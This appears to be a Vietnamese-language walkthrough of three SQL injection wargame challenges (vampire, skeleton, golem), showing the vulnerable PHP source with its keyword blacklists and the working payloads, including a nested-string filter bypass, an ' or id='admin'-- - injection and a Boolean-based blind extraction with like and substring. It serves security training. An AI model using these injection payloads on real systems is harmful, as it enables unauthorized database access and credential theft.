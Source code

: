 ## vampire

Link challenge: [vampire](https://los.rubiya.kr/chall/vampire_e3f1ef853da067db37f342f3a1881156.php)

![image](https://user-images.githubusercontent.com/80137840/218029919-57ccadaa-1da4-4d1a-96f5-547a90b55fb7.png)

Server nhận giá trị của param **id** trên URL rồi kiểm tra nếu có ký tự nháy đơn (') thì exit chương trình, nếu không thì replace đi chuỗi 'admin' có trong **$_GET[id]**. Sau đó server thực hiện truy vấn `Select id` tới CSDL và kiểm tra xem nếu kết quả trả về có id = 'admin' thì solve chall. 

Tuy nhiên hàm str_replace() chỉ replace đi 1 lần nên ta chỉ cần lồng 2 chuỗi 'admin' vào nhau là xong.

Query string: `?id=adadminmin`

![image](https://user-images.githubusercontent.com/80137840/218032286-84cf6640-8bcc-4a66-bea4-55bba7c01fa9.png)

## skeleton

https://los.rubiya.kr/chall/skeleton_a857a5ab24431d6fb4a00577dac0f39c.php?pw=%27%20or%20id=%27admin%27--%20-

```
query : select id from prob_skeleton where id='guest' and pw='' or id='admin'-- -' and 1=0

SKELETON Clear!
http://www.wechall.net
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

## golem

https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?pw=77d6290b

Bài này sử dụng Boolean-based SQLi, sử dụng **like** thay thế toán tử '=' và sử dụng hàm substring() để tìm từng ký tự của password

![image](https://user-images.githubusercontent.com/80137840/218062678-35314461-5ac1-4d16-878a-37102bbbf05d.png)

```
query : select id from prob_golem where id='guest' and pw='77d6290b'

GOLEM Clear!
http://www.wechall.net
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
```